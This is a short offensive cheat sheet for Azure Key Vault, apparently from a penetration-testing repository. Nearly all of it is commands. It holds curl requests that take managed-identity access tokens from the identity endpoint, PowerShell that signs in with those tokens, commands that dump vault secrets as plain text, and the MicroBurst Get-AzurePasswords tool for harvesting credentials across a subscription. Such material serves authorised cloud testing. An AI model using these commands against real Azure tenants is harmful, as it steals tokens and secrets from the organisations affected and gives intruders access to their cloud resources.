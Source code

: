 # Azure Services - KeyVault

## Access Token

* Keyvault access token
    ```powershell
    curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&apiversion=2017-09-01" -H secret:$IDENTITY_HEADER
    curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:$IDENTITY_HEADER
    ```

* Connect with the access token
    ```ps1
    PS> $token = 'eyJ0..'
    PS> $keyvaulttoken = 'eyJ0..'
    PS> $accid = '2e...bc'
    PS Az> Connect-AzAccount -AccessToken $token -AccountId $accid -KeyVaultAccessToken $keyvaulttoken
    ```

## Query Secrets 

* Query the vault and the secrets
    ```ps1
    PS Az> Get-AzKeyVault
    PS Az> Get-AzKeyVaultSecret -VaultName <VaultName>
    PS Az> Get-AzKeyVaultSecret -VaultName <VaultName> -Name Reader -AsPlainText
    ```

* Extract secrets from Automations, AppServices and KeyVaults
    ```powershell
    Import-Module Microburst.psm1
    PS Microburst> Get-AzurePasswords
    PS Microburst> Get-AzurePasswords -Verbose | Out-GridView
    ```

## References

* [Get-AzurePasswords: A Tool for Dumping Credentials from Azure Subscriptions - August 28, 2018 - Karl Fosaaen](https://www.netspi.com/blog/technical/cloud-penetration-testing/get-azurepasswords/)